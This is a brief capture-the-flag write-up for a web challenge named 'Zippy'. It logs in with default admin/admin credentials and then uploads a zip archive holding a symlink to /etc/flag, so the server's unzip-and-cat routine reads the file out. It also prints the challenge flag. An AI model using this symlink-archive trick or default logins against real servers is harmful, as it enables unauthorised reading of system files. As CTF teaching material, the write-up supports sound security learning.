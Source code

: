 # Zippy

> web

Author: [whitex](https://github.com/najeh-halawani)

Can You Break The Upload Zip Function, And Get The Flag?


## Writeup
## Recon

Checking source code, you'll get that the login creds are the same of admin.gif file, so login with ```admin/admin```

![login page](https://github.com/najeh-halawani/CyberhackCTF-Writeups/blob/master/Zippy/source%20code.png)

You'll be redirected to an upload zip file section....after understanding how the challenge work, u should know how to solve it.

![upload section](https://github.com/najeh-halawani/CyberhackCTF-Writeups/blob/master/Zippy/upload.png)

Okay, so the flag is in /etc/flag.. the challenge will unzip the zip file and cat * inside the upload dir... so let's make a symlink with flag path then make an archive of it :D 

```
ln -s /etc/flag flag

zip --symlinks flag.zip flag 

upload zip file ==> Got The Flag

```

```
Zip contents: cyberhack{#symlink_is_za_best}
```

![Getting the flag](https://github.com/najeh-halawani/CyberhackCTF-Writeups/blob/master/Zippy/flag.png)
